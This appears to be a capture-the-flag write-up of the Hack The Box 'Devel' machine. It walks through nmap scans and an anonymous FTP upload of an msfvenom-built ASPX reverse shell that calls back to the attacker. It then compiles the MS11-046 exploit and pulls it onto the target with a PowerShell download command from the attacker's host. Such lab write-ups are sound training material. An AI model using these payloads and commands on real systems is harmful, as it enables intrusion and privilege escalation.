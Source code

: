 ```yaml
---
title: post
date: 2022-06-11 15:08:03
author: 0xma
img: /medias/images/devel/Devel.png
categories: 
  - windows
  - hackthebox
tags:
  - ctf
  - htb-devel
  - hackthebox
  - webshell
  - aspx
  - meterpreter
  - metasploit
  - msfvenom
  - ms11-046
  - ftp
  - nishang
  - nmap
  - watson
  - smbserver
  - upload
  - windows
  - oscp-like
---
```

# [Easy] Devel

![Untitled](/medias/images/devel/Devel.png)

## Reconnaissance

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```bash
sudo nmap -sC -sV -O -oA nmap/initial <IP>
```

- **sC**: run default nmap scripts
- **sV**: detect service version
- **O**: detect OS
- **oA**: output all formats and store in file *nmap/initial*

We get back the following result showing that port 80 is open with Microsoft IIS web server running on it and port 21 is open with FTP running on it.

![Untitled](/medias/images/devel/Untitled%201.png)

Before we start investigating the open ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```bash
sudo nmap -sC -sV -O -p- -oA nmap/full <IP>
```

We get back the same results as above.

Similarly, we run an nmap scan with the **sU** flag enabled to run a UDP scan.

```bash
sudo nmap -sU -O -oA nmap/udp <IP>
```

We get back the following result. As can be seen, the top 1000 ports are closed.

Our only avenue of attack is port 80 & port 21. The nmap scan did show that FTP allowed anonymous logins and so we’ll start there.

## Enumeration

Anonymous File Transfer Protocol (FTP) allow anyone to log into the FTP server with the username “anonymous” and any password to access the files on the server.

![Untitled](/medias/images/devel/Untitled%202.png)

Try navigating to these files in the browser.

![Untitled](/medias/images/devel/Untitled%203.png)

The FTP server seems to be in the same root as the HTTP server. Why is that interesting? Well, if I upload a reverse shell in the FTP server, I might be able to run it through the web server.

```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=<YourIP> LPORT=4242 > revshell.aspx
```

Our nmap scan showed that the web server is Microsoft IIS version 7.5. IIS web server generally either executes ASP or ASPX (ASP.NET). Since the version is 7.5, further googling tells us that it likely supports ASPX.

Upload the file on the ftp server.

![Untitled](/medias/images/devel/Untitled%204.png)

Go back to your listener to see if the shell connected back.

![Untitled](/medias/images/devel/Untitled%205.png)

Perfect! We have a shell and it’s running as **iis apppool\web**.

Change the directory to the **Users** directory where the flags are stored.

Try to access the **babis** and **Administrator** user directories.

![Untitled](/medias/images/devel/Untitled%206.png)

We don’t have permission, so let’s learn more about the operating system to see if we can escalate privileges.

![Untitled](/medias/images/devel/Untitled%207.png)

We’re on a Microsoft Windows 7 build 7600 system. It’s fairly old and does not seem to have been updated, so it’s probably vulnerable to a bunch of exploits.

## Privilege Escalation

Let’s use google to look for [exploits](https://www.exploit-db.com/exploits/40564).

![Untitled](/medias/images/devel/Untitled%208.png)

The first two exploits displayed allow us to escalate privileges. The second exploit (MS11–046), has documentation on how to compile the source code, so we’ll go with that one.

Get the **EDB-ID** from the web page, so that we can use it to find the exploit in **searchsploit**.

![Untitled](/medias/images/devel/Untitled%209.png)

Update **searchsploit** to ensure you have all the latest vulnerabilities.

```bash
searchsploit -u
```

Use the **m** flag to look for the exploit **40564** and copy it to the current directory.

```bash
searchsploit -m 40564
```

![Untitled](/medias/images/devel/Untitled%2010.png)

Now, we need to compile the exploit. The compilation instructions are in the [exploitdb webpage](https://www.exploit-db.com/exploits/40564).

If you don’t have mingw-w64 installed, install it.

```bash
sudo apt-get update && sudo apt-get install mingw-w64
```

Compile it using the listed command.

```bash
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

Alright, we have a compiled exploit. Now what is left is to transfer the exploit to the target (Devel) machine.

Start up a server on the attack (Kali) machine.

```bash
python2 -m SimpleHTTPServer 80
```

Netcat doesn’t seem to be installed on Windows, but powershell is. So, we’ll use it to transfer the file from our server to a directory we can write to.

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<YourIP>/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
```

![Untitled](/medias/images/devel/Untitled%2011.png)

![Untitled](/medias/images/devel/Untitled%2012.png)

![Untitled](/medias/images/devel/Untitled%2013.png)